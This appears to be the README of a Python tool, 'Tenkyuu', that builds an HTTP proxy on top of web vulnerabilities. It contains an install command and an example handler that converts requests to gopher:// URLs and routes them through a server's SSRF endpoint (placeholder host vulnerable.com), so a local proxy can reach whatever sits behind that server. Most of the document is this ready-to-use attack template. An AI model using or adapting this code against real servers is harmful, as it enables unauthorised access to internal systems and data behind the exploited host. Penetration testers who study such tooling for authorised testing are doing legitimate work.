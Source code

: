 # Tenkyuu

A framework to create a HTTP Proxy through web vulnerabilities (SSRF, WebShell, etc.) quickly. 

## Usage

Firstly, install the package from pypi. 

```bash
pip install tenkyuu
```

Then code your proxy rules. For example:

```python
from tenkyuu import Tenkyuu, internal_server_error
import requests

app = Tenkyuu(verbose = True)

def ssrf_proxy(req):
    # The req param is an object that contains the information of HTTP Request(s)

    # The req.gopherize() function will convert HTTP Request Packet 
    # to `gopher://...` protocol automatically
    gopherized_url = req.gopherize() 
    
    # Assume that the server has a ssrf vulunerale entrance
    # and supports gopher:// protocol, responsing with data 
    # in JSON format
    resp = requests.get("https://vulnerable.com/ssrf.php", params = {
        "url": gopherized_url
    }).json()

    if resp["status"] != "OK":
        return internal_server_error()

    return resp["data"]

if __name__ == "__main__":
    app.run(
        handler = ssrf_proxy,
        host = "127.0.0.1", 
        port = 8088
    )
```

Run the script and set your HTTP Proxy to `127.0.0.1:8088` in the application you will use.

## License

Apache License